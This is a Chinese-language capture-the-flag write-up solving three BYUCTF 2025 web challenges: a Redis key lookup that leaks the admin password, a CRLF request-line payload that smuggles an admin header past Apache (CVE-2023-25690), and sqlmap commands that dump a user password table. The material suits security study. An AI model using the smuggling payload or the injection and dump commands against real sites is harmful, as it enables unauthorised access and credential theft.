# BYUCTF 2025 Web Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/18021  
> **文章ID**: 18021

---

## **Red This 438**

### 描述

**Author: CopperSands**

[https://redthis.chal.cyberjousting.com](https://redthis.chal.cyberjousting.com/)

[redthis.zip](https://ctfd.cyberjousting.com/files/200defa2d3770f29700ea67b30bf00aa/redthis.zip?token=eyJ1c2VyX2lkIjoyMTUwLCJ0ZWFtX2lkIjo1MDgsImZpbGVfaWQiOjM0fQ.aCgyKw.4dIDCaGofRyn5LKd-ZqE1wXffMs)

### 简介

一个查询页面，一个登录页面，一个注册页面和一个redis数据库

查询页面如下所示，输入一个名字，输出一段话



### 获取admin密码

`main.py`

```
### IMPORTS ###
import flask, redis, os

### INITIALIZATIONS ###
app = flask.Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32).hex()
HOST = "redthis-redis"

### HELPER FUNCTIONS ###
def getData(key):
    db = redis.Redis(host=HOST, port=6379, decode_responses=True)
    value = db.get(key)
    return value

def getAdminOptions(username):
    adminOptions = []
    if username != None and username == "admin":
        db = redis.Redis(host=HOST, port=6379, decode_responses=True)
        adminOptions = db.json().get("admin_options", "$")[0]
    return adminOptions

### ROUTES ###
@app.route('/', methods=['GET'])
def root():
    username = flask.session.get('username')
    adminOptions = getAdminOptions(username)
    return flask.render_template('index.html', adminOptions=adminOptions)

# get quote 
@app.route('/get_quote', methods=['POST'])
def getQuote():
    username = flask.session.get('username')
    person = flask.request.form.get('famous_person')
    quote = [person, '']
    if "flag" in person and username != "admin":
        quote[1] = "Nope"
    else: 
        quote[1] = getData(person)
    adminOptions = getAdminOptions(username)
    return flask.render_template('index.html', adminOptions=adminOptions, quote=quote)

@app.route('/register', methods=['POST', 'GET'])
def register():
    # return register page 
    if flask.request.method == 'GET':
        error = flask.request.args.get('error')
        return flask.render_template('register.html', error=error)

    username = flask.request.form.get("username").lower()
    password = flask.request.form.get("password")

    ## error check
    if not username or not password:
        return flask.redirect('/register?error=Missing+fields')

    ## if username already exists return error
    isUser = getData(username)
    if isUser:
        return flask.redirect('/register?error=Username+already+taken')
    else:
        # insert new user and password
        db = redis.Redis(host=HOST, port=6379, decode_responses=True)
        # db.set(username, "User") # nah, we don't want to let you write to the db :)
        passwordKey = username + "_password"
        # db.set(passwordKey, password) # nah, we don't want to let you write to the db :)
        flask.session['username'] = username
        return flask.redirect('/')

@app.route('/login', methods=['POST', 'GET'])
def login():
     # return register page 
    if flask.request.method == 'GET':
        error = flask.request.args.get('error')
        return flask.render_template('login.html', error=error)
    
    username = flask.request.form.get("username").lower()
    password = flask.request.form.get("password")

    ## error check
    if not username or not password:
        return flask.redirect('/login?error=Missing+fields')
    
    # check username and password
    dbUser = getData(username)
    dbPassword = getData(username + "_password")
    
    if dbUser == "User" and dbPassword == password:
        flask.session['username'] = username
        return flask.redirect('/')
    return flask.redirect('/login?error=Bad+login')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False, threaded=True)
```

这里面有一个admin账号先尝试用jwt设置cookie发现没有密钥不能解出admin的session

`getQuote()`能查数据库中的数据但是不能直接查flag，只有admin能查flag

```
# get quote 
@app.route('/get_quote', methods=['POST'])
def getQuote():
    username = flask.session.get('username')
    person = flask.request.form.get('famous_person')
    quote = [person, '']
    if "flag" in person and username != "admin":
        quote[1] = "Nope"
    else: 
        quote[1] = getData(person)
    adminOptions = getAdminOptions(username)
    return flask.render_template('index.html', adminOptions=adminOptions, quote=quote)
```

查看数据库已有的记录提交`famous_person=admin_password`获取admin密码





admin\_password:`I_HopeYou4re8admin_iLoveTechn070g_9283910`

### 获取flag

在/login使用`admin:I_HopeYou4re8admin_iLoveTechn070g_9283910` 登录

用`famous_person=flag_`没有查到flag

最后发现flag就在下拉菜单里面，直接拿到flag



`byuctf{al1w4ys_s2n1tize_1nput-5ed1s_eik4oc85nxz}`

## **Willy Wonka Web 438**

### 描述

**Author: Legoclones**

Welcome to the world of web! Can you get the flag?

[https://wonka.chal.cyberjousting.com](https://wonka.chal.cyberjousting.com/)

[wonka.zip](https://ctfd.cyberjousting.com/files/9c9fdc9cea965dfe7843297f11fd2f14/wonka.zip?token=eyJ1c2VyX2lkIjoyMTUwLCJ0ZWFtX2lkIjo1MDgsImZpbGVfaWQiOjExfQ.aChdXw.0NGLyBD0S-HasQpmFtZuBMIwsEo)

### 简介

打开链接，什么都没有



### 进入后端

以下是源代码中给的配置文件

`httpd.conf`

```
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    ServerName localhost
    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on
    RewriteRule "^/name/(.*)" "http://backend:3000/?name=$1" [P]
    ProxyPassReverse "/name/" "http://backend:3000/"

    RequestHeader unset A
    RequestHeader unset a

</VirtualHost>
```

访问<https://wonka.chal.cyberjousting.com/name/1>路径，Apache 会将请求转发到<http://backend:3000/?name=1>

后端代码如下

`server.js`

```
// imports
const express = require('express');
const fs = require('fs');

// initializations
const app = express()
const FLAG = fs.readFileSync('flag.txt', { encoding: 'utf8', flag: 'r' }).trim()
const PORT = 3000

// endpoints
app.get('/', async (req, res) => {
    if (req.header('a') && req.header('a') === 'admin') {
        return res.send(FLAG);
    }
    return res.send('Hello '+req.query.name.replace("<","").replace(">","")+'!');
});

// start server
app.listen(PORT, async () => {
    console.log(`Listening on ${PORT}`)
});
```

在请求头中设置`a: admin`可以获取flag，但是在`httpd.conf`用`RequestHeader unset a`把请求头删掉了

### 绕过

`Dockerfile`中看到版本httpd:2.4.55

搜索相关漏洞找到这个请求走私漏洞，没复现成功，但是这题可以通过在GET参数后面加请求头来绕过

<https://github.com/dhmosfunk/CVE-2023-25690-POC>

为本地测试，在backend文件夹下创建`flag.txt`



输出请求头和flag

```
app.get('/', async (req, res) => {
    console.log(req.headers)
    console.log(req.query.name)
    if (req.header('a') && req.header('a') === 'admin') {
        console.log(FLAG);
        return res.send(FLAG);
    }
    return res.send('Hello '+req.query.name.replace("<","").replace(">","")+'!');
});
```

启动环境

```
docker-compose up
```

经过本地测试，发现这样不会被过滤



后端输出的请求头如下



得到flag



```
GET /name/1%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a HTTP/1.1
Host: wonka.chal.cyberjousting.com
相当于
GET /name/1 HTTP/1.1\r
Host: wonka.chal.cyberjousting.com\r
a: admin\r
\r
 HTTP/1.1
Host: wonka.chal.cyberjousting.com
```

或者直接这样也可以得到flag

```
curl "https://wonka.chal.cyberjousting.com/name/12%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
```

```
└─$ curl -H "host:wonka.chal.cyberjousting.com" -H "a:admin" "https://wonka.chal.cyberjousting.com/name/1"
Hello 1!
└─$ curl "https://wonka.chal.cyberjousting.com/name/12%20HTTP/1.1%0d%0aHost:%20wonka.chal.cyberjousting.com%0d%0aa:%20admin%0d%0a%0d%0a"
byuctf{i_never_liked_w1lly_wonka}
```

`byuctf{i_never_liked_w1lly_wonka}`

## **Cooking Flask 442**

### 描述

**Author: bluecougar**

I threw together my own website! It's halfway done. Right now, you can search for recipes and stuff. I don't know a ton about coding and DBs, but I think I know enough so that no one can steal my admin password... I do know a lot about cooking though. All this food is going to make me burp. Sweet, well good luck

[https://cooking.chal.cyberjousting.com](https://cooking.chal.cyberjousting.com/)

### 简介

一个查询菜单的程序



### SQL注入

`tags`是可以注入的，sqlmap直接出flag

查数据库

```
sqlmap -u "https://cooking.chal.cyberjousting.com/search?recipe_name=&description=&tags=Dessert"
```



查表

```
sqlmap -u "https://cooking.chal.cyberjousting.com/search?recipe_name=&description=&tags=Dessert" --tables
```



根据题目描述，猜测flag可能是admin密码，于是在user表里查字段

```
sqlmap -u "https://cooking.chal.cyberjousting.com/search?recipe_name=&description=&tags=Dessert" -T user --columns
```

查到了password字段，继续

```
sqlmap -u "https://cooking.chal.cyberjousting.com/search?recipe_name=&description=&tags=Dessert" -T user -C password --dump
```



`byuctf{pl34s3_p4r4m3t3r1z3_y0ur_1nputs_4nd_h4sh_p4ssw0rds}`
